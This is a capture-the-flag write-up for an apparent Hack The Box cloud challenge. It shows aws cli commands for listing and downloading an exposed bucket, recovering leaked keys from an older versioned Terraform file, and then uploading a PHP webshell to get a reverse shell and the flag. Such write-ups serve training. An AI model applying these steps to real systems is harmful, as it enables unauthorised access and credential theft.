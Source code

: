 ### Challenge description
Cloud challenges don't have a description. We just get an IP address and are supposed to get the flag.

A port scan reveals only port 22 and 80 open.
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b6ad51fc-cc3f-4c43-a142-ddf9c8d2cfab)

A good looking website that doesn't seem to do anything:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/c73191e3-ab3c-4c30-8814-a19008b85d62)

Intercepting traffic with Burpsuite, as always, I noticed it was trying to load a `main.js` file from an `s3.unveiled.htb` domain.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/48ed6942-9299-4eec-9e9e-7e2c7fdde356)

Using aws cli with my default profile, which has the creds from the AWS fortress, I was able to list the buckets. 

```bash
aws s3 ls --profile default --endpoint-url http://s3.unveiled.htb/
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d150dca4-c6d4-4b46-b0a8-950f35cea92b)

_In this case it doesn't matter that I used those creds, this can be listed without any creds at all. However, I've encountered situations where this wasn't possible. You needed to be authenticated, it just didn't matter with what.. so I got in the habbit of always using "some" credentials when listing AWS stuff._

We can use the syntax below to list the contenxt of the `unveiled-backups` bucket:

```bash
aws s3 ls --profile default --endpoint-url http://s3.unveiled.htb/ s3://unveiled-backups
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/675045e7-c901-402a-8091-1661224dd5ca)

We can use the syntax below to recursive download everything in the bucket locally:

```bash
aws s3 cp --profile default --endpoint-url http://s3.unveiled.htb/ s3://unveiled-backups/ . --recursive
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/20786fee-2edd-4624-833a-1f0d9124fb6c)

We can copy from and to the bucket. The website was trying to reach a main.js file which doesn’t exist. We can create one with a reverse shell and upload it.

```bash
aws s3 cp main.js --profile default --endpoint-url http://s3.unveiled.htb/ s3://unveiled-backups/main.js
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d8d0134f-a33c-4f89-841c-143325e2004b)

No callback from javascript reverse shell, when it tries to load it, we still get a 500 error. The main.tf terraform file does show that versioning is enabled:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/b2dc30a0-1e2c-4f94-b30a-5924f0d6e80f)

We can see an older version of the main.tf file:

```bash
aws s3api list-object-versions --endpoint-url http://s3.unveiled.htb/ --bucket unveiled-backups
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/15ce98b8-f96c-4067-b6dc-4d8c43a2fb62)

And copy it locally like this:

```bash
aws s3api get-object --endpoint-url http://s3.unveiled.htb/  --bucket unveiled-backups --key main.tf --version-id "589b5ec6-6780-4b0d-8e91-2d3932433e95" main.tf
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fbf339bd-b9f3-41a7-a2d0-53a67112aa94)

This version has the keys included unlike the previous one:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/43c4ba25-8c0f-4973-a864-67d9cb190809)

We need to check what region this bucket is in so we can configure a profile:

```bash
aws s3api get-bucket-location --endpoint-url http://s3.unveiled.htb/  --bucket unveiled-backups
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e14ad225-8464-4787-88c3-d63ea6f1f26d)

It's not region locked so we can use any region, I used us-east-2:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/15e535d7-8217-4fcd-909a-f503db195443)

We can now list the private bucket as well.

```bash
aws s3 ls --profile unveiled --endpoint-url http://s3.unveiled.htb/ s3://website-assets
```
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5a8dd37c-3652-4dcc-aa49-1d837b88f1b3)

Now that we have access to this bucket, we can upload a PHP webshell since this is an Apache webserver:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/013ebe7a-af68-45bd-a5da-a1a845d4ab5b)

We can easily get a reverse shell now:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/85e59480-49ff-4e0d-bbef-08427f4212e6)

We find the flag in /var/www:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/df2dfeea-eadd-44e7-81fe-6bfddbd6e55b)  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9b844644-76a3-4666-9161-e9959eb1e1af)

HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}










